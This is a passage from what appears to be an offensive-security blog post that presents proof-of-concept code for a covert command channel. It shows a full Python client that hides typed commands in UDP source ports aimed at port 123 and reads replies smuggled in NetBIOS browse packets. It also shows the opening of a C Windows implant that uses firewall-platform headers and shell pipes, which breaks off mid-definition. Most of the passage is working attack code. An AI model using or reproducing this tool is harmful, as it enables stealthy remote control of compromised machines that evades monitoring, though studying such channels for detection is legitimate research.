 After all this chit-chat let's play a bit with our shitty PoC. Here comes the client:

```python
 # PoC by Juan Manuel Fernandez (@TheXC3LL)
 
 import sys
 import threading
 from scapy.all import *
 
 
 
 def textToPorts(text):
         chunks = [text[i:i+2] for i in range(0, len(text), 2)]
         for chunk in chunks:
                 send(IP(dst=sys.argv[1])/UDP(dport=123,sport=int("0x" + chunk[::-1].encode("hex"), 16))/Raw(load="Adepts of 0xCC here to make some noise, avoid this kind of obvious malformed packet with stupid messages ;)"), verbose=False)
 
 def getPacket(pkt):
         needle = "BROWSE\x00\x00\x00\x09"
         data = pkt[Raw].load
         if needle in data:
                 sys.stdout.write(data[data.find(needle) + len(needle):])
                 sys.stdout.flush()
 
 def monitor():
         sniff(prn=getPacket, filter="port 138 and host " + sys.argv[1], iface=sys.argv[2])
 
 if __name__ == "__main__":
         x = threading.Thread(target=monitor)
         x.start()
         while 1:
                 command = raw_input()
                 textToPorts(command + "\r\n")
```

And here the other part:

```c
/* PoC by Juan Manuel Fernandez (@TheXC3LL) */

#include <windows.h>
#include <fwpmtypes.h>
#include <fwpmu.h>
#include <stdio.h>
#include <winsock.h>


#pragma comment (lib, "fwpuclnt.lib")
#pragma comment (lib, "Ws2_32.lib")

#define EXIT_ON_ERROR(err) if((err) != ERROR_SUCCESS) {goto CLEANUP;}

#define BUFFER_SIZE 400

FILETIME ft;




struct child_pipes {
	HANDLE child_IN_R;
	HANDLE child_IN_W;
	HANDLE child_OUT_R;
	HANDLE child_OUT_W;
```